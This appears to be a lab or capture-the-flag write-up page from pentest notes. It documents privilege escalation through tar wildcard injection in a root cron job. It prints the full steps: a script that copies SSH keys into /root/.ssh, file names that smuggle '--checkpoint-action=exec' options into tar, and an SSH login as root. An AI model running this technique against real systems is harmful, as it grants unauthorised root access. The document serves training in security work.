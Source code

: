 ```yaml
---
layout: default
title: Bash Gobbling (Tar *)
parent: Cron
nav_order: 1
---
```


# Bash Gobbling (Tar \*)

---

## Check Cron Jobs

```bash
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh

```

Check the _/usr/local/bin/backup-flask.sh_ job that is running every minute.

```bash
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

```

This job is running _tar_ with the astrisk.

This allows for an exploitation technique known as _Bash Gobbling_

Let's create a malicious script that copies the _/home/alfredo/.ssh/authorized_keys_ to \*/root/.ssh/authorized_keys"

```bash
[alfredo@fedora ~]$ cd restapi
[alfredo@fedora restapi]$ echo '#!/bin/bash' >> getroot.sh
[alfredo@fedora restapi]$ echo 'cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys' >> getroot.sh
[alfredo@fedora restapi]$ cat getroot.sh#!/bin/bash
cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys
```

Now we can tamper with the backup process:

```bash
[alfredo@fedora restapi]$ touch ./--checkpoint=1 ./--checkpoint-action=exec=getroot.sh
```

Wait a few minutes for the cronjob to execute and then SSH into the system as the root user.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh -p 25022 -i id_alfredo root@192.168.213.249
Web console: https://fedora:9090/

Last login: Tue Mar 28 03:21:22 2023
[root@fedora ~]# id
uid=0(root) gid=0(root) groups=0(root)

```
